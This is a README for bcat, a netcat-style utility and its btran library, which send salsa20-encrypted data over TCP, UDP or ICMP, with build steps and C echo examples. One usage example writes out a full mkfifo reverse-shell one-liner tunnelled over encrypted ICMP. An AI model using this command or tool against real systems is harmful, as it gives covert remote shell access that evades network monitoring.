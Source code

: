 # bcat

bcat is a small utility that allows to reliably and securely exchange data between a server and a client.

It is designed to be used as easily as netcat.

Features:
- The communication between the two entities is encrypted with a shared simmetric key (it uses `salsa20`)
- It supports multiple transport protocols (as of today `tcp`, `udp` and `icmp`)
- It supports connection handling and packet retransmission for unreliable transport protocols

The real magic is implemented in the `btran` library, that exposes posix-like socket wrappers for multiple transport protocols.
More on that at the end of this readme.

## Compilation

You can compile `bcat` utility and `btran` library using cmake;

```
mkdir build
cd build
cmake ..
make
```

## Usage

```
USAGE: ./bcat [-l] [-P <protocol>] [-K <key>] [-v] [-h] <addr> <port>

    -h: print help
    -l: listen mode
    -K: key, required if not in listen mode
    -P: backend protocol type [tcp, udp, icmp]
    -k: keep the connection alive
    -v: verbose
```

### Examples

Exchange a file using `TCP`:

``` bash
# listen side
bcat -K super_secret_key -l -P tcp *bindIp* *bindPort* > /path/to/output/file

# connect side
bcat -K super_secret_key -P tcp *connectIp* *connectPort* < /path/to/input/file
```

Exchange a file using `ICMP`:

``` bash
# listen side
sudo bcat -K super_secret_key -l -P icmp *bindIp* *bindPort* > /path/to/output/file

# connect side
sudo bcat -K super_secret_key -P icmp *connectIp* *connectPort* < /path/to/input/file
```

Open a reverse shell using `ICMP`:

``` bash
# listen side
sudo bcat -K super_secret_key -l -P icmp *bindIp* *bindPort* > /path/to/output/file

# connect side
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | ./bcat -K super_secret_key -P icmp *connectIp* *connectPort* > /tmp/f
```

# btran

The btran library exposes posix-like socket primitives for different backend transport protocols.
As of today, it supports `tcp`, `udp` and `icmp`.

Features:
- It transparently handles authentication and encryption using a pre-shared symmetric key (it uses [salsa20](https://github.com/AlexWebr/salsa20)).
- For `udp` and `icmp`, it transparently handles connection handling (look at [reldgram](btran/reldgram.c)) and packet retransmission (under the hood, it uses [kmp](https://github.com/skywind3000/kcp)).

## Usage

Look at [btran.h](btran/btran.h) to view its public APIs.

### Examples

Sample echo server that uses ICMP as transport protocol:

``` C
#include <stdio.h>
#include <btran.h>

int main() {
    btran_ctx_t ctx;
    if (btran_init(&ctx, BTRAN_ICMP, "encryptionKey") != 0)
        return 1;

    if (btran_listen(&ctx, "0.0.0.0", 1337) != 0) {
        printf("[!] unable to conenct, maybe you are not root?\n");
        btran_dispose(&ctx);
        return 1;
    }

    while (1) {
        btran_ctx_t client;
        if (btran_accept(&ctx, &client) != 0)
            continue;

        uint8_t* buf;
        uint32_t buf_size;
        if (btran_recv(&client, &buf, &buf_size, 0) != 0) {
            btran_dispose(&client);
            continue;
        }
        printf("[+] received: %.*s\n", (char*)buf_size, buf);

        btran_send(&client, buf, buf_size);
        btran_dispose(&client);
        free(buf);
    }
    return 0;
}
```

Sample echo client

``` C
#include <stdio.h>
#include <btran.h>

int main() {
    btran_ctx_t ctx;
    if (btran_init(&ctx, BTRAN_ICMP, "encryptionKey") != 0)
        return 1;

    if (btran_connect(&ctx, "127.0.0.1", 1337) != 0) {
        printf("[!] unable to conenct, maybe you are not root?\n");
        btran_dispose(&ctx);
        return 1;
    }

    const char* data = "Hello";
    if (btran_send(&ctx, (uint8_t*)data, 5) != 0) {
        btran_dispose(&ctx);
        return 1;
    }

    uint8_t* buf;
    uint32_t buf_size;
    if (btran_recv(&ctx, &buf, &buf_size, 0) != 0) {
        btran_dispose(&ctx);
        return 1;
    }
    printf("[+] received: %.*s\n", (char*)buf_size, buf);

    free(buf);
    btran_dispose(&ctx);
    return 0;
}
```
